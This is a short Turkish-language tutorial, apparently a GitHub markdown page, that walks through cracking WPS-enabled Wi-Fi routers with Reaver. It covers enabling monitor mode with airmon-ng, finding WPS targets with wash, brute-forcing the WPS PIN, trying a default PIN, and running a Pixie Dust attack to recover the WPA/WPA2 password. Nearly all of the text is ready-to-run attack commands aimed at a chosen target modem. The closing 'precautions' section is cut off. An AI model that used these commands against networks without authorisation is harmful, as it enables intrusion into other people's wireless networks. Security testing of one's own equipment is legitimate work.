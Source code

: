 ## 📌 Reaver Temel Komutları

- 1️⃣ Monitor Modunu Açma

Öncelikle, kablosuz ağ adaptörünü monitor moda geçirmelisin:
```bash
airmon-ng start wlan0
```
wlan0 yerine kendi adaptör ismini yazmalısın.

- 2️⃣ Yakındaki Ağları Tarama

Hangi modemlerin WPS özelliğinin açık olduğunu görmek için:
```bash
wash -i wlan0mon
```
Bu komut, WPS açık olan modemleri listeler.

- 3️⃣ Reaver ile WPS PIN Saldırısı Başlatma

Belirlediğin WPS açık modeme saldırı yapmak için:
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -vv
```

## 📌 Açıklamalar:

-i wlan0mon → Kablosuz adaptörün monitor moddaki ismi.

-b XX:XX:XX:XX:XX:XX → Hedef modem MAC adresi.

-vv → Detaylı çıktı verir.

```bash
MAC adresini wash -i wlan0mon komutundan öğrenebilirsin.
```

- 4️⃣ PIN ile Doğrudan Şifre Kırma

Bazı modemlerin varsayılan PIN kodları olabilir. Bunları deneyerek WPA/WPA2 şifresini almak için:
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -p 12345670 -vv
```
Burada -p 12345670, PIN kodudur. Varsayılan WPS PIN’leriyle deneme yapar.

- 5️⃣ Pixie Dust Saldırısı (Hızlı PIN Kırma)

Eğer modem Pixie Dust saldırısına karşı savunmasızsa, PIN saniyeler içinde kırılabilir.
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -K 1 -vv
```

### Ekstra Seçenekler:

-K 1 → Pixie Dust saldırısını aktif eder.

## 📌 Reaver İşlem Süresi & Önlemler
